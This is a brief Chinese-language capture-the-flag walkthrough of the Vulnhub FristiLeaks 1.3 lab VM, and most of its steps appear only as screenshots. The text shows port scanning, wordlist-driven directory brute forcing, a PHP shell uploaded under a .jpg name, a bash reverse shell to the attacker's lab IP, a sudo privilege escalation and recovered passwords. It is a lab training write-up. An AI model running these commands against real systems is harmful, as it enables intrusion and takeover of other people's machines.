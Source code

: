 ```yaml
---
title: Vulnhub 133 FRISTILEAKS 1.3 简
date: 2015-12-14
---
```


靶机链接：<https://vulnhub.com/entry/fristileaks-13,133/>

<!--more-->

## 环境配置

| 名称        | IP             |
| ----------- | -------------- |
| Kali Linux  | 192.168.88.153 |
| FRISTILEAKS: 1.3 | 192.168.88.156 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.156
$ sudo nmap -v -A -p- $rip
```


![](./1.webp)

![](./2.webp)
```
$ cewl http://192.168.88.156/  >pass
```



```
$ dirb http://192.168.88.156/ pass
```


![](./3.webp)
 

![](./4.webp)

![](./5.webp)
 

![](./6.webp)

![](./7.webp)

![](./8.webp)

![](./9.webp)

![](./10.webp)

 

![](./11.webp)

![](./12.webp)

<http://192.168.88.156/fristi/uploads/r444.php.jpg>

![](./13.webp)

![](./14.webp)

![](./15.webp)

```bash
/home/admin/../../bin/bash -i >& /dev/tcp/192.168.88.153/555 0>&1
```









```
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom touch /tmp/1
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom bash -p
```



![](./16.webp)


![](./17.webp)

![](./18.webp)

![](./19.webp)


![](./20.webp)

```
import base64,codecs,sys

def decodeString(str):
  rot13string = codecs.decode(str[::-1], 'rot13')
  return base64.b64decode(rot13string)
print(decodeString(sys.argv[1]))

```

![](./21.webp)


![](./22.webp)


![](./23.webp)


```
LetThereBeFristi!
thisisalsopw123
```

![](./24.webp)


![](./25.webp)


![](./26.webp)


![](./27.webp)